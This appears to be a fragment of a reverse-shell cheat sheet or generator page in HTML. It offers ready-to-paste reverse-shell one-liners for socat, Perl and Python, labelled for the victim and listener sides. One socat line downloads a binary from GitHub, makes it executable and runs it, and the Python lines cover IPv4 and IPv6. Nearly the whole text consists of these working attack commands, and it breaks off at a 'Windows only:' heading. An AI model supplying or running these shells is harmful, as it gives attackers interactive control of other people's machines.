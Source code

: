 <h3>Socat:</h3>
Victim:
<pre id="socat01">/tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:127.0.0.1:813</pre>
<pre id="socat02">socat tcp-connect:127.0.0.1:813 exec:"bash -li",pty,stderr,setsid,sigint,sane</pre>
Listener:
<pre id="socat03">socat file:`tty`,raw,echo=0 TCP-L:813</pre>
<br>
Victim:
<pre id="socat04">wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:127.0.0.1:813</pre>

<h3>Perl:</h3>
Victim:
<pre id="perl01">perl -e 'use Socket;$i="127.0.0.1";$p=813;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'</pre>
<pre id="perl02">perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"127.0.0.1:813");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'</pre>

Windows only, Victim:
<pre id="perl03">perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"127.0.0.1:813");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'</pre>

<h3>Python:</h3>
IP v4
<pre id="python01">python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",813));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'</pre>

<pre id="python02">export RHOST="127.0.0.1";export RPORT=813;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'</pre>

<pre id="python03">python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",813));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'</pre>

IP v6
<pre id="python04">python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::125c",813,0,2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/sh");'</pre>
<p>
Windows only: